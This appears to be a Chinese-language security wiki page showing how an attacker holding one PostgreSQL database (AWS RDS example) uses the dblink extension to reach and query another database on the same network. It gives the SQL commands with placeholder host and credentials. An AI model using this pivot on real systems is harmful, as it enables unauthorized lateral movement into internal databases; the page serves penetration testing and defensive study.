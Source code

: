 ```yaml
---
title: PostgreSQL 数据库 SSRF
---
```

<center><h1>PostgreSQL 数据库 SSRF</h1></center>

---

如果获得了 PostgreSQL 数据库权限，可以通过 PostgreSQL 中的 dblink 插件横向到其他同网段数据库，这里以 AWS RDS 为例。

这里假设已经得到了一个 PostgreSQL 数据库权限，通过信息收集获得了另一台 PostgreSQL 数据库连接信息，但网络不通无法直接连接，这时可以尝试使用已有的这台 PostgreSQL 数据库进行连接。

```sql
create extension dblink;
select dblink_connect('test','host=x.x.x.x port=xxx user=xxx password=xxx dbname=postgres sslmode=disable');
create table t(id int);
select * from dblink_send_query('test', 'select version();');
select * from dblink_get_result('test') as t(res text);
```

</br><img width="1000" src="/img/1651979660.png"></br>

可以看到，通过当前 PostgreSQL 数据库成功连接到了另一台 PostgreSQL 数据库并成功执行了 select version(); 命令。

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年5月8日"
    }
  }
</script>